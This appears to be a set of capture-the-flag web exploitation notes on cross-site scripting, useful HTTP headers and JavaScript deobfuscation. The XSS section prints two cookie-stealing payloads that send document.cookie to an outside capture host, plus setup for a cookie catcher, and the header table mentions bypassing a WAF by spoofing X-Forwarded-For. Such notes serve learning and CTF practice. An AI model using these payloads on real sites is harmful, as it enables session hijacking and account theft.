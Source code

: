 ```yaml
---
title: web
date: 2018-05-04 18:17:18
---
```


## Cross Site Scripting / XSS
With cross-site scripting, you aim to steal session cookies of an admin or other important user. You can do this by posting JavaScript that redirects someone who visits the website to a website you own. Just send the cookie as a parameter in the GET request.

```html
1. No Filtering
<script>
location.href=("https://requestb.in/some_session?c="+document.cookie)
</script>

2. Image OnError
<img src="" onerror="location.href=('http://192.168.1.163?c=' + document.cookie)"></img>
```

https://requestb.in/ is a great website for easily capturing HTTP requests.
If you need specific response type, use https://httpbin.org/.
In the case that the server visiting your IP is network restricted or needs a specific HTTP response, you can set-up your own cookie catcher using cookie_catcher.py or as follows:
```
virtualenv -p python3 venv
source venv/bin/activate
pip install xss_catcher
xss_catcher
```

## HTTP Headers
These are some of the interesting HTTP headers and what they do. A full list can be found here: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers

Header | Purpose | Example
--- | --- | ---
X-Forwarded-For | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. Brute force WAF with [waf_bypass.py](waf_bypass.py) | X-Forwarded-For: 192.168.101.13
X-Remote-IP | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-remote-IP: 192.168.101.13
X-Originating-IP | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-originating-IP: 192.168.101.13
X-Client-IP | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-Client-IP: 192.168.101.13
X-Remote-Addr | Identifies originating IP address of a client connecting to a web server through an HTTP proxy or load balancer. | X-remote-Addr: 192.168.101.13
X-Forwarded-Host | Identifies the original host requested by the client in the HOST header. | X-Forwarded-Host: id42.example-cdn.com
Cookie | User cookies | Cookie: key1=value1; key2=value2;
Host | The website trying to be reached. Needed because the requested page may be different from the load balancer / root IP address. | Ex: cnn.com
Origin | Discloses where a fetch came from. Doesn't disclose the whole path. | Origin: https://developer.mozilla.org
Referer | Contains address of previous web page from which link to currently requested page was followed. | Referer: https://developer.mozilla.org/en-US/docs/Web/JavaScript
From | If a human creates a bot to scrape something, they should make the bot include a From header in its requests, containing the human's email. This way, a website owner can contact the human if the bot is destructive. | From: webmaster@example.org

## Deobfuscate JavaScript
Here is a handy website to deobfuscate JavScript code.
[https://baivong.github.io/de4js/](https://baivong.github.io/de4js/)

Remember, you can also set breakpoints in JS via Chrome's developer tools console.
